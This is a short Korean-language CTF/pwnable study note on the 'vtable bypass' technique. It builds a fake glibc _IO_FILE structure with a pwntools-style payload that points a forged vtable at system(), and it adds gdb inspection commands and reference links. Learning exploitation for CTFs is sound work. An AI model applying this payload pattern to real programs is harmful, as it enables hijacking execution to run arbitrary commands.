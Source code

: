 ```yaml
---
layout: post
type: note
title: vtable bypass
alias: Pwnable
---
```


fake _IO_FILE Structure를 만들어 vtable의 조작된 함수 포인터가 실행되게 만들면 된다.

```python
stream = p64(0)*17
stream += p64(NULLPOINTER) # _IO_lock_t
stream += p64(0)*9
stream += p64(vtable)
stream += p64(system)*20

p.sendline(stream)
p.interactive()
```

dbg

```
print (((_IO_strfile *) fp)->_s._free_buffer)
_IO_str_jumps
p *(struct _IO_jump_t *)vtable
p/x (*(struct _IO_FILE *) fp)
p/x (*(struct _IO_FILE_plus *) fp)
```

### Reference

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/io_file/fake-vtable-exploit

https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique

